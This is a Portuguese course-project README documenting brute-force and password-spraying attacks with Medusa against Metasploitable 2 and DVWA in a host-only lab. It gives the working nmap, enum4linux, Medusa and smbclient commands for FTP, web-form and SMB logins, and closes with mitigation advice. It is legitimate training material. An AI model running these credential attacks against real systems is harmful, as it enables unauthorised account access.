







# 🛡️ Projeto Curso de Cibersegurança DIO com Kali Linux e Medusa

Bem-vindo ao meu projeto prático de segurança ofensiva!  
Neste repositório, você encontrará uma jornada completa de aprendizado, testes e documentação sobre ataques de força bruta em ambientes vulneráveis, utilizando **Kali Linux**, **Medusa** e máquinas como **Metasploitable 2** e **DVWA**.

Este projeto foi desenvolvido como parte do desafio da DIO, com o objetivo de aplicar técnicas reais de pentest em um ambiente controlado e propor medidas de mitigação eficazes.

---

## 📌 Índice

- [⚙️ Configuração do Ambiente](#️configuração-do-ambiente)
- [🔍 Testes Realizados](#testes-realizados)
  - [FTP – Força Bruta](#1-ftp--força-bruta)
  - [HTTP – DVWA](#2-http--dvwa-formulário-web)
  - [SMB – Password Spraying](#3-smb--password-spraying)
- [🖼️ Evidências Visuais](#️evidências-visuais)
- [🛡️ Recomendações de Mitigação](#️recomendações-de-mitigação)
- [✨ Reflexões Pessoais](#️reflexões-pessoais)
- [📚 Recursos Consultados](#️recursos-consultados)

---

## ⚙️ Configuração do Ambiente
- **VirtualBox** com duas VMs:
  - Kali Linux (atacante)
  - Metasploitable 2 (alvo)
- Rede interna configurada em modo **Host-Only**.
- DVWA instalada para simulação de ataques web.

---

## 🔍 Testes Realizados

### 1. FTP – Força Bruta
Enumeração de serviços com Nmap
  
nmap -sV -p 21,22,80,445,139 192.168.56.103

Acesso inicial ao serviço FTP
ftp 192.168.56.103

Criação de wordlists
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Ataque com Medusa
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6

### 2. HTTP – DVWA (Formulário Web)
Ataque automatizado com Medusa
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL failed' -t 6

### 3. SMB – Password Spraying
Enumeração de usuários
enum4linux -a 192.168.56.103 | tee enum4_output.txt
less enum4_output.txt

Criação de wordlists
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

Ataque com Medusa
medusa -h 192.168.56.103 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50

Validação de acesso
smbclient -L //192.168.56.103 -U msfadmin

## 🖼️ Evidências Visuais

### 🔍 Scan com Nmap

### 📂 Conexão FTP

### 🧪 Wordlists criada ftp

### 🚀 Ataque FTP com Medusa

### 🌐 Ataque Web (DVWA)

### 🧠 Enumeração SMB

### 🧪 Wordlists criada smb

### 🔓 Ataque SMB com Medusa

### 📁 Listagem de shares SMB

✅ Resultados Obtidos
FTP: credenciais válidas encontradas → acesso confirmado.
HTTP (DVWA): login realizado com sucesso após tentativa automatizada.
SMB: acesso obtido com senha reutilizada em múltiplos usuários.

🛡️ Recomendações de Mitigação
Políticas de senha forte e única.
Bloqueio após tentativas falhas.
Monitoramento de logs e alertas.
Autenticação multifator (MFA).
Restringir serviços expostos e aplicar patches.

